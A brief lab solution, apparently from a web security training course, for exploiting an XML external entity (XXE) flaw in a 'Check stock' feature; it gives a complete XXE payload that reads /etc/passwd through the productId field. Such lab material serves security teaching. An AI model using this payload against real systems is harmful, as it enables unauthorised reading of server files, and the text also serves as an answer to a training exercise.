# Lab: Exploiting XXE using external entities to retrieve files

(information disclosure via XXE)

This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.

To solve the lab, inject an XML external entity to retrieve the contents of the /etc/passwd file.

Payload

``` <?xml version="1.0" encoding="UTF-8"?>
        <!DOCTYPE mydoc [ <!ENTITY payload SYSTEM "file:///etc/passwd" > ]>
                <stockCheck>
                        <productId>
                            &payload;
                        </productId>
                        <storeId>
                           1
                        </storeId>

                </stockCheck>
```
